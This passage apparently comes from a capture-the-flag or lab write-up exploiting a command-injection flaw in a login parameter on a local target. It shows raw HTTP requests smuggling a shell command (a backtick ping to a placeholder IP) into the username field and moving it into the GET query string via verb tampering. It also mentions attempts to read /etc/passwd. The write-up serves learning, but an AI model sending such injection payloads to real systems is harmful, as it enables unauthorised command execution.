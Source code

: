 I did some testing using the above command and tried reading the contents of /etc/passwd and the __id__ command but was not successful in getting any results via the cli or using Burp's repeater.

One thing I noticed is that having a request that looks like the following, will not work at all since the exploit requires a POST request to be made but when we attempt to auth we are using a GET request.

```
GET /index.html
Host: 127.0.0.1:1337
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=%3b`ping+-c+5+your_ip`
```

To bypass this we will utilize __verb tampering__. This simply just requires you to put the payload in the initial GET URL as follows:

```
GET /index.html?username=%3b`ping+-c+5+your_ip`
Host: 127.0.0.1:1337
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

The exploit POC I was looking at was from this [site](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). Looking at the exploit it uses the __/login__ endpoint so I decided to turn on Burp's proxy to intercept traffic and try again focusing on this endpoint. Below is the request I intercepted and sent to repeater (*I changed the GET endpoint from /index.html to /login*)
